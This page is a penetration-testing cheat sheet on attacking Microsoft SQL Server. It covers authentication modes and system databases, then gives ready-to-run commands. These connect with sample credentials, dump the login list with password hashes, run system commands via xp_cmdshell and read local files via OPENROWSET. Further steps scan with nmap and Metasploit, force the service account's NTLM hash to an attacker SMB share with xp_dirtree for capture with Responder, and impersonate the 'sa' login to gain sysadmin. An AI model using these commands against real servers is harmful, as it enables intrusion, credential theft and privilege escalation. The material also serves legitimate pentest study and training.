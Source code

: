 # MSSQL

## About

<mark style="color:red;">**Microsoft SQL (MSSQL)**</mark>** is Microsoft's SQL-based **<mark style="color:purple;">**relational database**</mark>** management system.** It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET. MSSQL have a lot of different targets. Default port is <mark style="color:yellow;">**1433**</mark> and <mark style="color:yellow;">**1434.**</mark> More about MSSQL Hacking you could read here [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

## **Authentication Mods**

**MSSQL** have 2 authentication mods: <mark style="color:yellow;">**windows authentication mode (default)**</mark> and <mark style="color:yellow;">**mixed**</mark>. Windows authentication mode is often referred as <mark style="color:yellow;">**integrated**</mark> because of high integration with AD and Windows. With this you could authenticate into database automatically if you have right user or member of right group. **Mixed mode** is supporting both **AD/Windows** authentication and **SQL** one.  <mark style="color:yellow;">**If we are specifying domain, it'll use Windows auth, if we don't specify domain, it'll use SQL auth.**</mark> We should use <mark style="color:green;">**`servername\\accountname`**</mark> for domain specification.&#x20;

## Databases

**MSSQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                         | Description                                                                                                                                                                                            |
| ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| <mark style="color:green;">**`master`**</mark>   | Tracks all system information for an SQL server instance                                                                                                                                               |
| <mark style="color:green;">**`model`**</mark>    | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| <mark style="color:green;">**`msdb`**</mark>     | The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| <mark style="color:green;">**`tempdb`**</mark>   | Stores temporary objects                                                                                                                                                                               |
| <mark style="color:green;">**`resource`**</mark> | Read-only database containing system objects included with SQL server                                                                                                                                  |

## MSSQL Useful Commands&#x20;

**HackTricks:** [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#common-enumeration)

| Command                                                                                                                                                                                                                                                                                                                                                                                                                  | Description                                                                                  |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`impacket-mssqlclient carni17@13.13.13.13`**</mark>                                                                                                                                                                                                                                                                                                                                         | Connect to the MSSQL server.                                                                 |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT name FROM master.dbo.sysdatabases;
</code></pre>                                                                                                                                                                                                                                                                                                          | Show all databases                                                                           |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                                                                                                                                                                                                                                                                                  | Select one of the existing databases                                                         |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT * FROM &#x3C;databaseName>.INFORMATION_SCHEMA.TABLES;
</code></pre>                                                                                                                                                                                                                                                                                       | Show all available tables in the selected database                                           |
| <p></p><pre class="language-sql"><code class="lang-sql"><strong>select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
</strong></code></pre> | List users                                                                                   |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                                                                                                                                                                                                                                                                           | Show everything in the desired table                                                         |
| <mark style="color:green;">**`xp_cmdshell 'whoami'`**</mark>                                                                                                                                                                                                                                                                                                                                                             | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ System command execution via **MSSQL** |
| <mark style="color:green;">**`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`**</mark>                                                                                                                                                                                                                                                                                 | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                    |

## CMD Interacting

#### Linux

```bash
sqsh -S 13.13.13.13 -U carni17 -P 'superkek' -h
# We need to use GO for command executon and use each line for each part of command which start with verb
```

```bash
sqsh -S 13.13.13.13 -U SUPERSECRETDOMAIN\\carni17 -P 'superkek' -h 
# or we could use . if we don't know domain name
```

```bash
python3 mssqlclient.py Administrator@13.13.13.13
```

#### Windows

```bash
sqlcmd -S 13.13.13.13 -U carni17 -P superkek123
# We need to use GO for command executon and use each line for each part of command which start with verb
```

## Tips2Hack

1. **Nmap MSSQL** Script Scan

```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 13.13.13.13
```

2. **Metasploit** scan. We can user <mark style="color:green;">**`mssql_ping`**</mark> to get more useful info about **MSSQL** server.

```bash
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 13.13.13.13

rhosts => 13.13.13.13

msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 13.13.13.13:       - SQL Server information for 13.13.13.13:
[+] 13.13.13.13:       -    ServerName      = SQL-01
[+] 13.13.13.13:       -    InstanceName    = MSSQLSERVER
[+] 13.13.13.13:       -    IsClustered     = No
[+] 13.13.13.13:       -    Version         = 15.0.2000.5
[+] 13.13.13.13:       -    tcp             = 1433
[+] 13.13.13.13:       -    np              = \\SQL-01\pipe\sql\query
[*] 13.13.13.13:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

***

3. **Capture MSSQL Service Hash**

```sql
EXEC master..xp_dirtree '\\13.13.13.13\amogus\'
OR
EXEC master..xp_subdirs '\\13.13.13.13\amogus\'
# Then use Responder or impacket-smbclient to make a fake server and intercept hash
```

4. **Impersonating other users**

* Check what users can be impersonated

<pre class="language-sql"><code class="lang-sql">SELECT distinct b.name
<strong>FROM sys.server_permissions a
</strong>INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
</code></pre>

* Check current role and user

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

* Impersonating <mark style="color:green;">**`sa`**</mark> user

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
